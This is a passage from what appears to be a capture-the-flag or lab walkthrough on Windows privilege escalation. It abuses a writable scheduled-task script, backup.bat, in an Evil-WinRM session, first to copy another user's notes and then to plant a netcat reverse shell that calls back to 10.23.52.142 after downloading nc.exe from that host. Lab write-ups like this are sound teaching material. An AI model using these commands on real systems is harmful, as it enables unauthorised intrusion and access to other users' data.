 We can see that we have Full permissions in the Scripts directory, and in the ACL of the backup.dat file there isn't any specific rule for our user. In this case we have all permission for this file.

We can replace the file with a different script that save the o.armistrong's note in a directory where we can read the content.

{% code overflow="wrap" %}
```powershell
rm backup.bat

Set-Content -Path "C:\Scripts\backup.bat" -Value 'copy C:\Users\o.armstrong\Desktop\notes.txt C:\Scripts\backup_notes.txt'
```
{% endcode %}

We need to restore the o.armstrong rights to the script. Otherwise, the user will not have permission to read the notes and copy them to another directory.

```powershell
*Evil-WinRM* PS C:\Scripts> icacls backup.bat /grant o.armstrong:F
processed file: backup.bat
Successfully processed 1 files; Failed processing 0 files
```

This note however doesn't contain anything interesting.

```powershell
*Evil-WinRM* PS C:\Scripts> more backup_notes.txt
Things to check:


1. Check on the IT Website hosted on the Linux Server. Is it vulnerable?
2. Enforce the password policy on everyone!
```



### RevShell using Schtask

```
cp /usr/share/windows-binaries/nc.exe .
python3 -m http.server 80
```

{% code title="" overflow="wrap" %}
```powershell
curl http://10.23.52.142/nc.exe -o nc.exe

Set-Content -Path "C:\Scripts\backup.bat" -Value 'c:\Temp\nc.exe -e powershell 10.23.52.142 9009'
```
{% endcode %}

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
